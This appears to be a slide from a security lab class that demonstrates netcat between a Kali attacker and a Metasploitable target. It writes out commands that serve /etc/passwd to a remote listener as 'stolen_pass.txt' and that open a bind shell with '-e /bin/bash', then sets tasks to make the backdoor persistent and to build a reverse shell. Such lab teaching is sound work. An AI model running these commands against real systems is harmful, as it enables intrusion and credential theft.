

DEMO:

Green = Metasploitable, Red = Kali

Chat Server:
nc –nlvp 4444
nc ms.ftrlab 4444

File Transfer:
nc –nlvp 4444 < /etc/passwd
nc ms.ftrlab 4444 > stolen_pass.txt

Backdoor:
nc –lp 4444 -e /bin/bash
nc ms.ftrlab 4444
Make the backdoor persistant
Do a reverse shell